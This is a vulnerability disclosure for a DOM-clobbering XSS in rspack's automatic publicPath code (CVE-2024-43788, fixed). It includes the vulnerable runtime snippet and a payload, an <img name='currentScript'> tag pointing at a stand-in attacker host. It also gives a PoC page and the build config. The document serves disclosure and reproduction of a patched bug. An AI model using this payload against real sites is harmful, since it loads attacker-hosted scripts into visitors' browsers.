 ## rspack

### Meta

+ Library: rspack
+ Stars: 8.6K
+ Version: v1.0.0-rc.0
+ Fingerprint: N/A
+ Payload: ```<img name="currentScript" src="https://attack.hulk"></img>```
+ Impact: XSS
+ Status: Fixed
+ CVE: [CVE-2024-43788](https://nvd.nist.gov/vuln/detail/CVE-2024-43788)
+ Foundby: TheHulk

### Library

https://github.com/web-infra-dev/rspack

### Vulnerable Code Snippet

`crates/rspack_plugin_hmr/src/runtime/hot_module_replacement.js`
```javascript
(()=>{
        t.g.importScripts && (e = t.g.location + "");
        var e, r = t.g.document;
        if (!e && r && (r.currentScript && (e = r.currentScript.src),
        !e)) {
            var n = r.getElementsByTagName("script");
            if (n.length) {
                for (var o = n.length - 1; o > -1 && (!e || !/^http(s?):/.test(e)); )
                    e = n[o--].src
            }
        }
        if (!e)
            throw Error("Automatic publicPath is not supported in this browser");
        e = e.replace(/#.*$/, "").replace(/\?.*$/, "").replace(/\/[^\/]+$/, "/"),
        t.p = e
    }
    )()
```

## PoC


```html
<!--Library-->
<script defer src="./dist/main.bundle.js"></script>
<!--Library-->

<!--Payload-->
<div id="root"><img name="currentScript" src="http://localhost:9999">
<!--Payload-->
```

```

The `rspack.config.js` to generate the bundle can be found below. 

```
const rspack = require('@rspack/core');
const path = require('path');
/** @type {import('@rspack/cli').Configuration} */
module.exports = {
  entry: {
    main: './src/index.js',
  },
  output: {
    path: path.resolve(__dirname, 'dist'),
    filename: '[name].bundle.js',
    chunkFilename: '[id].bundle.js',
    publicPath: 'auto',
  },
  plugins: [
    new rspack.HtmlRspackPlugin({
      template: './poc.html',
    }),
  ],
  optimization: {
    splitChunks: {
      chunks: 'all',
    },
  },
};
```
